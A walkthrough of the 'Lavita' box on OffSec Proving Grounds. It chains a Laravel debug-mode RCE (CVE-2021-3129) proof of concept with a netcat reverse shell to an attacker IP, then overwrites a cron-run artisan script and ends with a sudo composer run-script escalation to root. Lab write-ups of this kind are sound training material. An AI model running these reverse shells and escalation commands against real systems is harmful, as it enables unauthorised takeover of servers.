


# Lavita — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Hard
**OS:** Linux

---

## TL;DR

Laravel 8.4.0 debug mode CVE-2021-3129 RCE → www-data shell → cron job runs `artisan` script → overwrite with reverse shell → shell as user → sudo `composer run-script` → root.

---

## Enumeration

```bash
nmap -sV -p- 192.168.164.38
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.4p1 Debian |
| 80 | HTTP | Apache httpd 2.4.56 |

Gobuster reveals a Laravel application with login/register pages and a `/cgi-bin/` directory.

After some enumeration, we determine the app runs on **Laravel 8.4.0**.

---

## Exploitation — CVE-2021-3129 (Laravel Debug Mode RCE)

Laravel applications with **debug mode enabled** are vulnerable to CVE-2021-3129. The EDB exploit (49424) didn't work, but a GitHub PoC did:

- [CVE-2021-3129 PoC](https://github.com/joshuavanderpoll/CVE-2021-3129)

To trigger debug mode, we registered an account on the website first:



```bash
python3 CVE-2021-3129.py --host http://192.168.191.38/
```

When prompted for a command, use a reverse shell:

```bash
nc 192.168.45.161 6969 -e /bin/bash
```

Press `y` through the exploit chain prompts, and we catch a shell as `www-data`.

---

## Step 2 — Cron Job artisan Overwrite

Running **pspy** reveals a cron job:

```
UID=1001 /usr/bin/php /var/www/html/lavita/artisan clear:pictures
```

The `artisan` file is **writable** by www-data. Overwrite it with a PHP reverse shell (pentestmonkey):

```bash
cat artisan > /var/www/html/lavita/artisan
```

Wait for the cron to fire — we get a shell as `skunk` (UID 1001).

---

## Step 3 — Sudo Composer run-script → Root

Checking sudo:



As www-data, we can abuse `composer` to get root. First, create a malicious `composer.json`:

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json
```

Then as skunk, run:

```bash
sudo composer --working-dir=/var/www/html/lavita run-script x
```

**Root.** 🎉

---

## Key Takeaways

- **Laravel debug mode** exposure is a critical vulnerability — CVE-2021-3129 gives RCE through log file deserialization attacks
- **Overwriting cron-executed scripts** is a reliable escalation technique when you have write access
- **`sudo composer run-script`** can execute arbitrary commands via a crafted `composer.json` — a lesser-known GTFOBins technique
- This box has a satisfying three-stage escalation chain: www-data → user (cron) → root (composer)

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
